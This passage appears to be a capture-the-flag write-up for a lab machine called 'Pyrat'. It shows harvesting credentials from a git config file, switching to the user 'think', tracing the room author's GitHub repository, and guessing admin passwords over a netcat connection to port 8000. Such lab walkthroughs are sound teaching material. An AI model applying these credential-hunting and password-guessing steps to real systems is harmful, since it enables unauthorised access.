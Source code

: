 ```terminal
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = ***REDACTED***
```

we found a ``git` directory with a config file containing credentials.

Let's switch to user `think`

```terminal
www-data@Pyrat:/opt/dev/.git$ su think
Password: 
think@Pyrat:/opt/dev/.git$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

Great! We got user `think`

### think -> root

Checking the git log we find only one commit:

```terminal
think@Pyrat:/opt/dev/.git$ git log
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint
```

I saw the github username `josemlwdf` and pasted in to google and found this account <https://github.com/josemlwdf>.

It's the room's authors account where we can find the repository of the service running on port 8000 '[pyrat](https://github.com/josemlwdf/PyRAT).

Checking the readme we find an interesting part:

>Admin: To access the admin functionality, type admin and press Enter. You will be prompted to enter a password. Enter the password and press Enter. If the password is correct, you will see the message "Welcome Admin!!! Type 'shell' to begin". You can then proceed to use the shell functionality.
{: .prompt-info }

Let's try that

```terminal
┌─[]─[10.9.4.213]─[sirius@parrot]─[~/ctf/thm/pyrat]
└──╼ [★]$ nc 10.10.248.81 8000
admin
Password:
admin
Password:
password
Password:
pass123
```
